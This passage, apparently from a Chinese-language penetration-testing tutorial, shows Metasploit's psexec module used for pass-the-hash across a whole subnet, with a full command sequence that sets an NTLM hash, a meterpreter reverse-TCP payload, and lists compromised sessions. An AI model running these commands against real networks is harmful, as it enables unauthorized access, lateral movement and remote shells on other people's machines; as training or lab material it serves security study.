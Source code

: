### 2.MSF

我们可以使用 MSF 里面的` exploit/windows/smb/psexec `模块进行哈希传递，当rhosts 参数指定为一个网段时，就可以进行哈希碰撞了！

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 10.211.55.0/24
set smbuser administrator
set smbpass aada8eda23213c027743e6c498d751aa:329153f560eb329c0e1deea55e88a1e9
run
```

如图所示，使用 MSF 进行哈希碰撞。

![截图](966f1842f572bc40ac111f9b64e605c1.png)

运行完成后，如果目标主机使用相同的密码，则会提示[+]，并且会获得使用该密码主机的权限。如图所示：

![截图](07fb99ec290bf4d5de10574d3b47c1a3.png)

我们可以执行 sessions -l 命令查看已经获得权限机器的的 session，如图所示：

![截图](593a73bffca3140203ddc61995c28205.png)
